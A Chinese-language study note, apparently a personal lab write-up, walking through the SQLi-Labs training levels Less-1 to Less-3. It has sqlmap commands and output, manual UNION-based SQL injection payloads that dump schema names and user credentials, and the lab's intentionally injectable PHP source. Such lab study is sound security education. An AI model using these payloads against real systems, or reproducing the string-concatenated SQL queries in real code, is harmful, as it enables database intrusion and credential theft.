


# SQLi-Labs(Sqlmap与手工注入)

## 提醒！

- kali中sqlmap的源码地址：/usr/share/sqlmap
- docker重新启动sqli-labs：docker start njh-sqli-labs
- 对于clone，将原本的网站中的github.com 进行替换为github.com.cnpmjs.org
- 使用sqlmal

  - kali下用sqlmap直接使用 `sqlmap` -u 'url' --technique=E 语句

  - 下载到非默认系统环境中，进入sqlmap的文件目录下 `python sqlmap.py` -u 'url' --technique=E 语句
- 查询日志sqlmap文件下的output，log是注入的日志，target.txt是执行的sqlmap命令，session.sqlite可以用sqlitespy查看书库内容。    ！！！
- SQL注入就是通过注入一些数据库可执行的语句，显示出存储在数据库的内容。


## SQL注入时的技巧

- 进行注释
  - `--+` 加号表示为空格
  - `#`若进行过滤则用`%23`
  - `-- 字符` 


## Sqlmap

```shell
njh㉿kali)-[~]
└─$ sqlmap -u 'http://localhost:520/Less-1/?id=2%22' --technique=E
#-u 指url，后面加网址
#--technique=E    E(基于的报错注入)、B(盲注)、U(联合注入)、S(堆叠注入)、T(基于时间的盲注)、Q(直接查询)
#--tamper=123.py  123.py是加载的payload

#--tamper ["脚本名称"]
#--current-db当前使用的数据库
#--current-user  数据库使用账户
#--users 有多少个用户
#--passwords 

(njh㉿kali)-[~]
└─$ sqlmap -u 'http://localhost:520/Less-1/?id=2%22' --technique=E --current-db

[18:24:51] [INFO] resuming back-end DBMS 'mysql' 
[18:24:51] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: id=2"' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7162627871,(SELECT (ELT(3664=3664,1))),0x71706a7071,0x78))s), 8446744073709551610, 8446744073709551610)))-- xJdS
---
[18:24:51] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.5
[18:24:51] [INFO] fetching current database
[18:24:51] [INFO] resumed: 'security'
current database: 'security'
[18:24:51] [INFO] fetched data logged to text files under '/home/njh/.local/share/sqlmap/output/localhost'                                                           
┌──(njh㉿kali)-[~]
└─$ sqlmap -u 'http://localhost:520/Less-1/?id=2%22' --technique=E --current-user              

[20:27:43] [INFO] resuming back-end DBMS 'mysql' 
[20:27:43] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: id=2"' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7162627871,(SELECT (ELT(3664=3664,1))),0x71706a7071,0x78))s), 8446744073709551610, 8446744073709551610)))-- xJdS
---
[20:27:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.5
[20:27:43] [INFO] fetching current user
[20:27:44] [INFO] retrieved: 'root@localhost'
current user: 'root@localhost'
[20:27:44] [INFO] fetched data logged to text files under '/home/njh/.local/share/sqlmap/output/localhost'
                                                                     
┌──(njh㉿kali)-[~]
└─$ sqlmap -u 'http://localhost:520/Less-1/?id=2%22' --technique=E --users                     

[20:31:01] [INFO] resuming back-end DBMS 'mysql' 
[20:31:01] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: id=2"' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7162627871,(SELECT (ELT(3664=3664,1))),0x71706a7071,0x78))s), 8446744073709551610, 8446744073709551610)))-- xJdS
---
[20:31:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.5
[20:31:01] [INFO] fetching database users
[20:31:02] [INFO] retrieved: 'root'
[20:31:02] [INFO] retrieved: 'root'
[20:31:02] [INFO] retrieved: 'root'
[20:31:02] [INFO] retrieved: 'root'
database management system users [1]:
[*] root

[20:31:02] [INFO] fetched data logged to text files under '/home/njh/.local/share/sqlmap/output/localhost'
```


## SQLi-Labs

### 预备知识、

在mysql中，为了便于对数据库的管理，会发现在mysql中有一个自带的数据库information_shcema，这里面有很多的数据表。

而其中有3张记录了DBMS管理的所有的数据库名，表名，字段名。

```
schemata 表
schemata表中有一个schema_name字段，存储了当前DBMS所管理的所有数据库的名字。可以通过查询这个表，获知所有的数据库名。

tables 表
tables中的table_schema和table_name字段，分别记录了数据库名称和该数据库下数据表的名称。

columns 表
columns中的table_schema, table_name, column_name字段，分别记录了数据库名，数据库下数据表的名，数据表下字段的名称。
```

因此，我们通过这3张表就能知道DBMS下管理的所有数据库的名字，以及每一个数据库下有多少表，表中都有什么字段。

```mysql
#查库
select schema_name from information_schema.schemata
#查表
select table_name from information_schema.tables where table_schema='security'
#查字段
select column_name from information_schema.columns where tables_names='users'
```


### Less1

**通过报错的注入，显示想检索的信息。**

- 通过sql注入是想得到数据库中存储的数据信息，如用户名和密码
  - 1.判断出检索的字段个数   `order by` 是用来对相应字段的列进行排序的。
  - 2.根据检索的字段编辑select，搜索出当前数据库版本和数据库名称
  - 3.根据搜索到的数据库名称，检索在当前数据库下的数据表有哪些
  - 4.根据搜索到的数据表，判断哪一个是用户存储账号的数据表 ，比如`users`
  - 5.在查询这个表中都有哪些字段，比如`id`, `username`, `password`
  - 6.根据这些字段，注入sql语句爆出账户和密码。

网页提示使用一个id作为参数


加单引号`'`


报错信息：

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''2'' LIMIT 0,1' at line 1

猜相关的源码是怎样写的，是不是传入的id是被单引号包裹的？


查看网站的源码，确实是这样的。

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
#limit 从0开始查询1条。
```

用双引号尝试，`"`


#### 根据源码判断类型

GET - 基于错误 - 单引号 - 字符型:

```php
GET：
if(isset($_GET['id']))//从get方式中获取的id是否为空，非空继续
{
$id=$_GET['id'];}

else { echo "Please input the ID as parameter with numeric value";}
    //没从get方式中获取到id
```

```php
基于错误：
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

    if($row)
    {
        //
    }
    else 
    {
        print_r(mysql_error()); //输出错误
    echo "</font>";  
    }
```

```php
单引号、字符型：
// connectivity 
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

#### 进行实验

判断检索的字段个数：使用`order by`来进行判断。输入`?id=1' order by num --+`然后查看网站的响应，如果正常就继续增大num的数值。我们发现当num到4时，网页给出了错误信息。


找到对应的列表位置：`union select`


查找数据库名称`union select 1,2,group_concat(schema_name) from information_schema.schemata -- +`

group_concat:同一个分组中的值连接起来，返回一个字符串结果。


查找数据库版本是5.5，数据库名称为security。


使用如下语句获知security数据下所有的数据表 
`1' and 1=2 union select 1, (select group_concat(table_name) from information_schema.tables WHERE table_schema='security'), 3 --+`

**单引号会引入一些问题，可以把'security'转化为16进制，得0x7365637572697479**


`1' and 1=2 union select 1, (select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'),3 --+`


因此得到网站中`security`数据下`users`表中的三个字段为`id`, `username`, `password`。

最后`?id=1' and 1=2 union select 1, (select group_concat(username) from users), (select group_concat(password) from users) --+`


`?id=1' and 1=2 union select 1,2, group_concat(concat_ws(0x7e,username,password)) from security.users -- +` 

用`~`拼接账号和密码，拼接会用到单引号，用十六进制转义。

concat_ws，用于拼接。


#### 讲解

- 为什么要用`'`，最后还要进行`--+`的注释。
  - 因为源码是`id='$id'`用单引号进行和源码中的`'$id`进行闭合，而源码多出来的右侧单引号则用`--+`进行注释掉。
- 为什么要使用`and 1=2`
  - 因为是基于报错的类型所以用`and 1=2`进行报错，而`union`又可以联合左右两侧一起执行，所以基于错误爆出我们想要得到的数据。


### Less2

```mysql
#Less1 单引号报错
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1.
#Less2 使用单引号报错
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1 
```

跟Less-1的index.php不同之处： 
 `$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";`

#### 根据源码判断类型

```php
GET类型-基于错误的类型
<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables
if(isset($_GET['id']))    //get方式
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1"; //id无任何包裹
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
	else 
	{
	print_r(mysql_error());    //打印错误结果
	echo "</font>";  
	}
}
	else
		{ 	
		echo "Please input the ID as parameter with numeric value";
		}
```

#### 进行实验

判断检索的字段个数：`?id=1 order by 3 -- +`


查询报错的对应位置：`?id=-1 union select 1,2,3`


查询数据库名：`?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata`


查询security数据库名中的表：`?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479`


查询users表中的字段：`?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273`


查询所有的用户名和密码：`?id=-1 union select 1,2,group_concat(concat_ws(0x7e,username,password)) from security.users`


#### 讲解

- 为什么用到-1
  - 是基于错误类型的，数据库中没有`id=-1`的情况，所以可以报错回显。同样可以用`id=1 and 1=2`进行实验。


### Less3

#### 根据源码判断类型

```php
<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables
if(isset($_GET['id']))  //GET类型
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 

$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";  //对id用('')进行包裹
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
	else 
	{
	print_r(mysql_error());   //基于报错的类型
	echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

?>
```

使用`id1'`测试，回显有括号。


使用`')`闭合，再进行注释，回显正常。



#### 进行实验

判断检索的字段个数：`?id=1') order by 3 -- +`



查询报错的对应位置：`?id=-1') union select 1,2,3`


查询数据库名：`?id=-1') union select 1,2,group_concat(schema_name) from information_schema.schemata`


查询security数据库名中的表：`?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479`


查询users表中的字段：`?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273`


查询所有的用户名和密码：`?id=-1') union select 1,2,group_concat(concat_ws(0x7e,username,password)) from security.users`


#### 讲解

Less3与前两个题属于相同类型，只是源码的id闭合方式不同。


### sqli-labs源码中的函数

1.include(file_path)：file_path为文件的绝对路径 ，include可以快速调用路径指向的文件，使用include()函数可以剩下很多的步骤。

2.error_reporting(n)：报错函数，可以进行报错,n值不同的时候可以返回不同的报错类型。

3.isset()：检查是否为空，不为空返回true，为空返回false。

4.empty()：检查一个变量是否为空。

5.fopen(file_name,mode)：打开文件。

6.fwrite()：写入文件内容。

7.fclose()：关闭文件。

8.mysql_query($sql)：执行某个针对数据库的查询。

9.mysql_fetch_array(data,array_type)：从结果集中取得一行数据作为关联数组，或数字数组，或二者兼有。返回根据从结果集取得的行生成的数组，如果没有更多行则返回 false。（data：可选。数据指针— mysql_query() 函数产生的结果。array_type：可选。规定返回哪种结果。可能的值：MYSQL_ASSOC - 关联数组、MYSQL_NUM - 数字数组、MYSQL_BOTH - 默认。同时产生关联和数字数组）

10.mysql_error()：错误报告。

11.mysql_real_escape_string()：转义SQL语句中的特殊字符，\x00,\n,\r,\,',",\x1a如果成功，则该函数返回被转义的字符串。如果失败，则返回 false。

12.mysql_escape_string()：转义一个字符串，使之可以安全的用于mysql_query()，并不转义%和_其余与mysql_real_escape_string()完全一样，除了 mysql_real_escape_string()接受的是一个连接句柄并根据当前字符集转移字符串之外。mysql_escape_string() 并不接受连接参数也不管当前字符集设定。

13.mysql_fetch_row(data)：从结果集中取得一行数据并作为数组返回。(data：mysql_query()返回的结果。)

14.mysql_affected_rows(link_identifier)：取得前一次MySQL操作所影响的记录行数。（link_identifier：MySQL 的连接标识符。如果没有指定，默认使用最后被 mysql_connect() 打开的连接。如果没有找到该连接，函数会尝试调用 mysql_connect() 建立连接并使用它。如果发生意外，没有找到连接或无法建立连接，系统发出 E_WARNING 级别的警告信息。）

15.mysqli_multi_query()：执行一个或多个针对数据库的查询，执行多个查询时用分号分隔。

16.mysqli_store_result()：转移上一次查询的结果集。

17.mysqli_more_results(link)：检查批量查询中是否还有查询结果。(仅以过程化样式：由mysqli_connect() 或 mysqli_init() 返回的链接标识。)

18.print_r()：打印函数。

19.`$uname=' " '.$unmae.' " '`   `$passwd=' " '.$passwd.' " '`

在uname和passwd两边加上双引号 ”，`.`起连接作用;。

20.substr(string,length)：返回一个字符串，string要返回的字符串，length要返回的长度

21.addslashes()：在 单引号 ’ ,双引号 ”,反斜杠 \, NULL 前加反斜杠。

22.get_magic_quotes_gpc()：获取当前magic_quotes_gpc的配置选项设置，返回0表示本功能关闭，返回1表示功能打开；当magic_quotes_gpc打开时，所有的单引号 ’ ,双引号 ”,反斜杠 \, NULL 会自动转为含有反斜杠的溢出字符。

23.stripslashes()：反引用一个引用字符串，如果magic_quptes_sybase项开启，反斜线将被去除，但是两个反斜线将会被替换成一个。

24.`intval(mixed $var[,int $base=10])`：整形转换，成功返回var的integer值，失败时返回0，用于获取变量的整数值，不能用于object，否则会产生错误并返回1，{ var: 要 转 换 成 integer的 数 量 值 ；var:要转换成integer的数量值； var:要转换成integer的数量值；base:转化所使用的进制，如果base是0，通过检测var的格式来决定使用的进制[如果字符串包括了”0x”(或“0x”)的前缀，使用16进制(hex)，如果以”0”开始，使用8进制(octal)，否则将使用10进制(decimal)]}。

25.ctype_digit():检查字符串中每个字符是否都是十进制数字，如是则返回true，否则返回false.

26.setcookie()：定义了cookie，会和剩下的http头一起发送给客户端。和其他http头一样，必须在脚本产生任意输出之前发送cookie(由于协议的限制)。在产生任何输出之前(包括和或者空格)调用本函数。一旦设置cookie后，下次打开页面时可以使用cookie 函 数 读 取 。cookie值 同 样 也 存 在 于 cookie函数读取。cookie值同样也存在于cookie函数读取。cookie值同样也存在于_REQUEST。

27.base64_encode()：使用base64对数据进行编码 。

28.header：发送原生http头，必须在任何实际输出之前调用，不管是普通的HTML标签，还是文件或PHP输出的空行，空格。

29.session_start()：开启session。

30.session_destroy()：销毁session。

31.`preg_replace($pattern,$replacement,$subject[limit])`：执行一个正则表达式的搜索和替换,搜索subject中匹配pattern的部分以replacement进行替换，limit为limit从句 (可选)。
32.`preg_match($pattern,$subject)`：搜索subject与pattern给定的正则表达式的一个匹配。

33.$_SERVER：超全局变量。

34.explode(separator,string,limit)：把字符串打散为数组,separator参数不能是空字符串

35.dechex():把十进制转换为十六进制。

36.ord()：返回字符串的首个字符的ASCII值。


https://blog.csdn.net/weixin_43733035/article/details/86829556

https://blog.csdn.net/qq_28921653/article/details/60866920

https://space.bilibili.com/29903122?spm_id_from=333.788.b_765f7570696e666f.1

https://blog.csdn.net/weixin_43901998/article/details/108367840

https://mp.weixin.qq.com/s?__biz=MzI2NDQyNzg1OA==&mid=2247483738&idx=1&sn=c0442d00d01d3b69b2d762c62121364e&chksm=eaad8167ddda08715176bf006d31a470b56d010283d642739265ceb39b195257bcff569ea0a7&scene=21#wechat_redirect

https://blog.csdn.net/weixin_43901998/category_9851782.html

https://github.com/Audi-1/sqli-labs